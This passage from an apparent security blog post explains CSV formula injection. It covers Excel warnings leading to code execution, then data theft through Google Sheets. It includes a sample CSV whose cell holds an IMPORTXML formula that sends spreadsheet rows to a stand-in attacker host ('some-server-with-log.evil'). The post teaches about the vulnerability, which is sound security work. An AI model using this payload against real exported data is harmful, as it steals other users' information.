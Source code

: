   <figcaption>Holy Crap!</figcaption>
</figure>

Yup, that's right, the system calculator opens right on up.

Now to be fair, there *is absolutely a warning*. It's just that the warning is a big block of text, which nobody is going to read. And even if they do, it explicitly recommends:

> Only click yes if you trust the source of this workbook

And you know what? This an export from an application that *they* are the administrator of. Of course they trust the source!

Are they a technically savvy user? Then it is even worse. They *know* the CSV format is just text data, there can't possibly be anything harmful in there. Guaranteed.

And just like that, the attacker has free reign to download a keylogger, install things, and overall remotely execute code not merely on any other person's computer, but on that of someone guaranteed to have access to all user's data; for example a manager or a company adminstrator. I wonder what other sort of files they might have lying around?

<div style="clear: both"></div>

# Attack Vector 2

Ok, the above is cute and all, but it is after all a (little) [known vulnerability](https://www.owasp.org/index.php/CSV_Excel_Macro_Injection). As a security professional, you might make sure to warn all your administrators to be extra careful with Excel and maybe even consider using Google Sheets instead. After all, Sheets can't be affected by macros, can it?

That is indeed correct. So let's pull back on our "run anything we want" ambitions and instead focus on merely stealing data. After all, the premise here is that the attacker is an ordinary user who can access only what they themselves input in the system. An Admin has elevated rights and can see everyone's data, can we compromise this somehow?

Well recall that while we cannot run macros in Google Sheets, we *can* absolutely run formulas. And formulas don't have to be limited to simple arithmetic. In fact, are there any Google Sheets commands available in formulas that can send data elsewhere? Why yes, there seem to be quite a few. But lets take a look at [`IMPORTXML`](https://support.google.com/docs/answer/3093342?hl=en) in particular.

> IMPORTXML(url, xpath_query)

This will, when it runs, preform an HTTP GET request to the url, then attempt to parse and insert returned data in our spreadsheet. Starting to see it yet?

Well what if our csv file contains:

```
UserId,BillToDate,ProjectName,Description,DurationMinutes
1,2017-07-25,Test Project,Flipped the jibbet,60
2,2017-07-25,Important Client,"Bop, dop, and giglip", 240
2,2017-07-25,Important Client,"=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")",240
```

The attacker starts the cell with their trusty `=` symbol prefix and then points `IMPORTXML` to a server they control, appending as a querystring of spreadsheet data. Now they can open up their server log and **bam**! Data that isn't theirs. [Try it yourself with a Requestbin](https://www.requestbin.com/).
